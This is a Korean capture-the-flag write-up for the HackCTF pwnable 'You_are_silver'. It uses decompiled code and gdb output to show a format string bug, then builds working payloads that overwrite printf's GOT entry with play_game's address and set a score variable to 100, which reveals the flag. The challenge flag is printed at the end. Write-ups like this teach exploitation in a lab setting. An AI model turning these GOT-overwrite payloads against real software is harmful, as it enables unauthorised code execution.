 # You\_are\_silver

---

우선 보호기법을 살펴보면 다음과 같다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```


쉘코드는 소용이 없을 듯 하다.

`main()`의 코드를 확인해보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]
  int v5; // [rsp+28h] [rbp-8h]
  unsigned int v6; // [rsp+2Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v6 = 50;
  puts("Please enter your name");
  fgets(&s, 46, stdin);
  printf(&s);
  v5 = get_tier(v6);
  printf((const char *)v5);
  return 0;
}
```

표준입력으로 s에 46bytes를 입력받는다. 그리고 이를 `printf()`로 출력한다. 이때 format string bug 취약점이 발생한다. 이후 v6에 저장되어있던 값으로 tier를 매겨서 등급을 제시해준다. 그 점수와 등급은 다음과 같다.

```c
__int64 __fastcall get_tier(int a1)
{
  __int64 result; // rax

  if ( a1 > 50 )
  {
    if ( a1 > 65 )
    {
      if ( a1 > 75 )
      {
        puts("\nYou are challenger.");
        result = 4LL;
      }
      else
      {
        puts("\nYou are master.");
        result = 3LL;
      }
    }
    else
    {
      puts("\nYou are platinum.");
      result = 2LL;
    }
  }
  else
  {
    puts("\nYou are silver.");
    result = 1LL;
  }
  return result;
}
```

그리고 다음과 같은 함수가 있다.

```c
void __fastcall __noreturn play_game(int a1)
{
  if ( a1 != 2 )
  {
    if ( a1 > 2 )
    {
      if ( a1 == 3 )
      {
        puts("master can't play game. Sorry! :(");
        exit(0);
      }
      if ( a1 == 4 )
      {
        puts("Challenger. Take this first!");
        system("cat ./flag");
      }
    }
    else if ( a1 == 1 )
    {
      puts("SILVER can't play game.");
      exit(0);
    }
    puts("Who are you? get out!");
    exit(0);
  }
  puts("platinum can't play game. :(");
  exit(0);
}
```

매개변수의 값에 따라서 등급을 나누어주며 등급이 Challenger인 경우에는 flag를 출력해준다. 그리고 이 매개변수의 값은 `get_tier()`에서 얻은 값과 동일하다.

따라서 다음과 같이 익스 시나리오를 짤 것이다. `main()`에서 일어나는 format string bug를 통해서 v6의 값을 100으로 바꾸는 동시에, `printf()`의 got를 `play_game()`의 주소로 바꿀 것이다. v6의 값을 바꾸기 위해서는 ASLR때문에 stack의 주소값을 leak하는 과정이 필요하지만, 46bytes를 입력받기 때문에 bufferoverflow에 의해서 v6는 덮어쓸 수 있다.



---

우선 다음을 보면 6번째 %lx부터 stack값을 참조한다는 것을 알 수 있다.
```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/23.You_are_silver$ ./you_are_silver
Please enter your name
AAAAAAAA %lx %lx %lx %lx %lx %lx %lx %lx
AAAAAAAA 18d1039 7f3ada695790 a 18d1039 786c2520786c2520 4141414141414141 786c2520786c2520 786c2520786c2520

You are silver.
Segmentation fault (core dumped)
```

이를 통해서 `printf()`의 got를 조작할 것이다. `printf()`의 got와 `play_game()`의 주소는 다음과 같다.

```gdb
gdb-peda$ got

/home/sjy0175/Desktop/HackCTF/Pwnable/23.You_are_silver/you_are_silver:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
...
0000000000601028 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5

...

gdb-peda$ p play_game
$1 = {<text variable, no debug info>} 0x4006d7 <play_game>
```

**printf_got=0x601028** <br>
**play\_game=0x4006d7**

play_game의 주소인 0x4006d7을 십진수로 바꾸면 
4196055가 된다. payload에서 앞에 `printf()`의 got주소 8bytes를 썼기 때문에 4196055-8=4196047이므로 payload의 앞부분은 다음과 같이 될 것이다.

**'\x28\x10\x60\x00\x00\x00\x00\x00'+'%4196047x'+'%6$ln'**

여기까지 payload의 길이는 21bytes이다. 때문에 뒷부분은 \x00으로 채워주고 마지막에 v6를 덮을 부분을 \x64\x00으로 채워주면 된다. \x64\x00은 100을 16진수로 바꾼 것이다. 따라서 최종적인 payload는 다음과 같다.

**'\x28\x10\x60\x00\x00\x00\x00\x00'+'%4196047x'+'%6$ln'+'\x00'\*22+'\x64\x00'**

이렇게 하면 분명히 되어야 하는데 계속 $가 입력이 되지 않는다. 

그래서 다음과 같이 입력해보았다.

**(python -c "print '\x28\x10\x60\x00\x00\x00\x00\x00'+'%16lx'\*4+'%4195983x'+'%ln'+'\x00'\*4+'\x64\x00'")**

$처럼 사라지지는 않아서 v6는 조작할 수 있었다. 하지만 %ln을 넣었음에도 불구하고 got overwrite가 되지 않는다. 이유를 알아보니 got주소에 적혀있던 null값에 의해서 printf의 출력이 끊겨서 원하는대로 작동이 되지않았던 것이었다. 따라서 payload를 다음과 같이 작성하면 된다.

**(python -c "print '%4196055x'+'%8$ln'+'AA'+'\x28\x10\x60\x00\x00\x00\x00\x00'+'\x00'\*20+'\x64\x00'")**

flag를 얻을 수 있었다.

```bash
You are challenger.
Challenger. Take this first!
HackCTF{N0w_Y0u_4re_b4side_0f_F4K3R}
Who are you? get out!
[*] Got EOF while reading in interactive
```

**flag: HackCTF{N0w\_Y0u\_4re\_b4side\_0f\_F4K3R}**
